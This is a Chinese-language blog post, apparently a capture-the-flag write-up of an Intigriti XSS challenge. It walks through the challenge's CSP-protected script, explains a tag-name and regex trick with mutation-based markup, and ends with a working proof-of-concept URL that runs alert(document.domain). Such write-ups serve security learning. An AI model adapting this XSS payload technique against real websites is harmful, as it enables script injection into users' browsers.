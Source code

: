 ```yaml
---
layout: post
title:  Intigriti 1012 xss writeup
tags: [xss]
---
```


# 摘要
Intigriti 1012 xss writeup。

# 解题过程
题目地址见引用1.  

通过页面提示，我们可以看到html参数。查看iframe页面源码
```html
  <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src 'unsafe-eval' 'strict-dynamic' 'nonce-cd1e3242b79f65198e12c1aefcab6e9e'; style-src 'nonce-14743d6fe7fd0a08ea8d9f109234d206'"
    />

<script nonce="cd1e3242b79f65198e12c1aefcab6e9e">
      window.addEventListener("DOMContentLoaded", function () {
        e = `)]}'` + new URL(location.href).searchParams.get("xss");
        c = document.getElementById("body").lastElementChild;
        if (c.id === "intigriti") {
          l = c.lastElementChild;
          i = l.innerHTML.trim();
          f = i.substr(i.length - 4);
          e = f + e;
        }
        let s = document.createElement("script");
        s.type = "text/javascript";
        s.appendChild(document.createTextNode(e));
        document.body.appendChild(s);
      });
    </script>
```
我们可以看到设置了csp，并且有nonce。  

关键点在于createElement("script")创建的s。往上看，可以看到xss参数，以及一个判断，console下面会报错。需求是，如何让js不报错。起初的想法是使用注释，但是并不成功。可以看到e=f+e，可以加一个四个字母长度的字符串，由于是取的innerHTML，测试发现后两位为`/>`，由于最后4位是标签，所以使用//注释不可行。考虑使用正则。 

另外一点，由于取的是lastElementChild，所以必须要吃掉后面的tag，否则会取到`span/>`。可以参考引用3中的mutation。这样最后的标签为我们所控。  
回到正则，由于有个`)`，导致正则报错，最终发现tag里面还可以使用`(`，成功执行。

就是说，tag name可以不为ASCII alphanumerics咯？

引用2
> Tags contain a tag name, giving the element's name. HTML elements all have names that only use ASCII alphanumerics. In the HTML syntax, tag names, even those for foreign elements, may be written with any mix of lower- and uppercase letters that, when converted to all-lowercase, matches the element's tag name; tag names are case-insensitive.

引用4
> An ASCII digit is a code point in the range U+0030 (0) to U+0039 (9), inclusive.
> An ASCII upper alpha is a code point in the range U+0041 (A) to U+005A (Z), inclusive.
> An ASCII lower alpha is a code point in the range U+0061 (a) to U+007A (z), inclusive.
> An ASCII alpha is an ASCII upper alpha or ASCII lower alpha.
> An ASCII alphanumeric is an ASCII digit or ASCII alpha.

# poc
```
https://challenge-1021.intigriti.io/challenge/challenge.php?xss=/g;alert(document.domain)&html=%3C/h1%3E%3C/div%3E%3Cdiv%20id=%22intigriti%22%3E%3Cform%3E%3Ca(%3Ecc%3Cstyle%3E
```
## 引用
1. https://challenge-1021.intigriti.io/
2. https://html.spec.whatwg.org/multipage/syntax.html#syntax-tag-name
3. https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/
4. https://infra.spec.whatwg.org/#ascii-alphanumeric
